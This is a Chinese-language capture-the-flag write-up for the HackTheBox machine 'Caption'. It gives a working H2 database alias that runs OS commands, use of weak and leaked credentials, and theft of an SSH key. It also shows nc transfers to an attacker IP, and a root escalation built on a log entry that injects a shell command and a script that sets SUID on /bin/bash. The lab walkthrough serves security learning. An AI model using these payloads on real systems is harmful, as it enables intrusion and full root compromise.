## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap Scan



开放端口：`22`、`80`、`8080`

`caption.htb:80`👇是一个登陆界面


`caption.htb:8080`👇注意到是一个`Gitbucket`的服务



其中`GitBucket`可以使用弱密码登入：root-root

并且发现两个仓库：`Logservice`，`Portal`



在`Caption-Portal`仓库的提交历史中，发现了泄露的用户margo，以及密码



登录`80`端口，但并没有什么有价值的东西，Logs路由甚至是403Forbidden



## SQL RCE

在Gitbucket的管理界面发现了可以执行SQL语句的部分

并且暴露出了是H2数据库



Google搜索结果：[Chaining Vulnerabilities in H2 Database for RCE | by Nairuz Abulhul | R3d Buck3T | Medium](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2)

```
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : ""; 
}$$;
```

执行这段命令给exec起个别名，然后就能调用



在margo的文件夹下发现了ssh私钥文件



将其写入本地kali，注意格式化以及权限设置为600


得到user.txt



## Privilege Escalation

回到Gitbucket页面的另一个`Logservice`仓库，可以发现是用Go语言写的



并且还引入了`thrift`



并且是运行在9090端口上



将LogService进行git clone到margo目录下



```
#靶机执行开启服务
thrift --gen py log_service.thrift

#nc传输文件
margo@caption:~/Logservice$ nc -q 0 10.10.16.29 4321 < log_service.thrift
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# nc -lnvp 4321 > log_service.thrift

#kali安装库
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# pip3 install thrift
```

将靶机端口转发到kali上

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# ssh -i margo.key -L 9090:127.0.0.1:9090 margo@10.10.11.33 
```

写入恶意日志文件

```
margo@caption:~/Logservice$ cat /tmp/evil.log 
127.0.0.1 "user-agent":"'; /bin/bash /tmp/hyh.sh #"

margo@caption:~/Logservice$ cat /tmp/hyh.sh 
chmod +s /bin/bash
```

回到kali

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption]
└─# thrift -r --gen py log_service.thrift
```

写入py文件

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption/gen-py]
└─# cat client.py   
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService

def main():
    transport = TSocket.TSocket('127.0.0.1', 9090)
    transport = TTransport.TBufferedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)
    client = LogService.Client(protocol)
    transport.open()
    try:
        response = client.ReadLogFile("/tmp/evil.log")
    except Exception as e:
        print(f"Error: {e}")
    finally:
        transport.close()

if __name__ == "__main__":
    main()
```

保存好后最后执行client.py

```
┌──(root㉿kali)-[/home/kali/Desktop/Caption/gen-py]
└─# python client.py  
```



得到root.txt

## Summary

个人感觉还是有点抽象

提权部分主要的思路是写入恶意的日志文件，然后通过thrift的连接让客户端主动执行bash的权限提升

不过我搜索了一下好像并没有thrift的相关提权操作，这应该是thrift的特性？不知道是否是thrift的操作都具有最高权限。

相关的writeup

- [HacktheBox-Caption | 心流 (natro92.fun)](https://natro92.fun/posts/86683f6f/#thrift-PE)

- [HackTheBox: Caption | Str4ngerX (loghmariala.github.io)](https://loghmariala.github.io/posts/Caption/#exploitation)
